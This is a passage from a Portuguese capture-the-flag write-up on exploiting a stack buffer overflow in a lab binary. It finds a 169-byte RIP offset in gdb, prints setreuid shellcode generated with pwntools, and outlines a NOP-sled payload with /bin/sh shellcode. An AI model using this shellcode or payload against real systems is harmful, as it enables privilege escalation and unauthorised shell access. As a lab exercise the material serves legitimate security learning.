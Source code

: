 ```gdb
gdb -q ./buffer-overflow-2
(gdb) run $(python -c "print('A'*165)")
```

Resultado:

```
new word is doggoAAAA... (165 As)
Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()
```

Testando com 169 bytes:

```gdb
(gdb) run $(python -c "print('A'*169)")
```

Resultado:

```
new word is doggoAAAA... (169 As)
Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

A partir desses testes concluímos que o offset até sobrescrever o RIP é **169 bytes** (considerando o conteúdo inicial do buffer, saved RBP e padding observados por testes).

---

### Preparando o shellcode / setreuid

Como `user3` possui permissão para ler `secret.txt`, geramos um shellcode para ajustar a identidade efetiva do processo para esse usuário:

```bash
pwn shellcraft -f amd64.linux.setreuid 1003
```

Resultado (bytes):  
```
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

---

### Payload final (referência)

**Obs:** Como não consegui montar o payload eu mesmo, obtive uma solução pronta como referência. O payload utilizado foi composto por:

- 90 bytes de NOP (`\x90`)
- 14 bytes de `setreuid` (conforme acima)
- ~40 bytes do shellcode `/bin/sh`
- 19 bytes de preenchimento/padding
- 6 bytes com o endereço de retorno (apontando para o NOP-sled)
